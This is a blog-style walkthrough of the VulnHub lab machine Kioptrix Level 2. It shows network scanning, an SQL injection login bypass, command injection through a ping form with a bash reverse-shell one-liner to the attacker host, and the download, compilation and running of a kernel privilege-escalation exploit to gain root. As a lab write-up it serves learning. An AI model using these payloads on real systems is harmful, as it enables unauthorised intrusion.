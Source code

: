 ```yaml
---
layout: post
title: "Kioptrix Level 2"
date: 2022-02-09
categories: [VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 2/Kioptrix2.png
---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 2/netdiscover.png)

Okay, so the IP address of the box is **10.0.2.67**.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.67
```

![nmap1](../../assets/img/posts/Kioptrix Level 2/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 2/nmap2.png)

there are multiple ports open. Let's enumerate each one of them.

Let's find out what technologies are running on the machine using **whatweb** tool,

```bash
whatweb http://10.0.2.67
```

![whatweb](../../assets/img/posts/Kioptrix Level 2/whatweb.png)

it's running PHP programming language, has a password field (maybe login mechanism).

visit http://10.0.2.67,

![web1](../../assets/img/posts/Kioptrix Level 2/web1.png)

we got a admin login page. Let's try to break through in using SQLi.

We'll put username as `admin' or 1=1#` and password as `admin`(**any**)

![web2](../../assets/img/posts/Kioptrix Level 2/web2.png)

we'll get logged in as administrator,

![web3](../../assets/img/posts/Kioptrix Level 2/web3.png)

seems like this is a web console and we can ping any machines. Let's ping our own machine,

when **127.0.0.1** is entered in empty area, we'll get this result,

![web4](../../assets/img/posts/Kioptrix Level 2/web4.png)

we got ping result. This is a OS Command Execution Vulnerability and we can run other system commands as well on this web console.

Let's get to know which user we're by, `whoami`

![web5](../../assets/img/posts/Kioptrix Level 2/web5.png)

Let's start the netcat listener on kali terminal using `nc -nvlp 4444` and we'll put this one liner reverse shell in ping utility of website to get us a reverse shell when command gets executed.

```bash
127.0.0.1; bash -c 'exec bash -i &>/dev/tcp/10.0.2.15/4444 <&1'
```

![web6](../../assets/img/posts/Kioptrix Level 2/web6.png)

as soon as this command runs, we'll get back a reverse connection,

![shell1](../../assets/img/posts/Kioptrix Level 2/shell1.png)

we're apache user.

After enumeration, I found that there's nothing we can do to elevate our privileges to users like john or harold. 

**Privilege Escalation:** we'll escalate our privileges to super-user with help of enumeration. Let's first find out what is the system OS running,

```bash
cat /etc/*-release
```

![shell2](../../assets/img/posts/Kioptrix Level 2/shell2.png)

this box is running **CentOS 4.5 Final**.

Let's take a look at kernel version,

```bash
uname -mrs
```

![shell3](../../assets/img/posts/Kioptrix Level 2/shell3.png)

The kernel version of this box is **Linux 2.6.9-55.EL**. After doing some research on google, I found that this kernel is named as **IP_Append_data()**. Let's search this exploit on searchsploit,

```bash
searchsploit ip append data
```

![searchsploit](../../assets/img/posts/Kioptrix Level 2/searchsploit.png)

this is a C file exploit.

Let's download the exploit on our dir and start the python webserver using `python3 -m http.server 8000` and now we're going to upload this exploit on the box,

first navigate to /tmp directory because this directory has writable permissions and then we'll download this exploit using **wget** command,

```bash
wget http://10.0.2.15:8000/9542.c
```

Let's now compile this exploit using **gcc** compiler,

```bash
gcc -o 9542 9542.c
```

Now, let's run the exploit,

```bash
./9542
```

![shell4](../../assets/img/posts/Kioptrix Level 2/shell4.png)

doing `id` will show us that we're now ROOT user!!!.
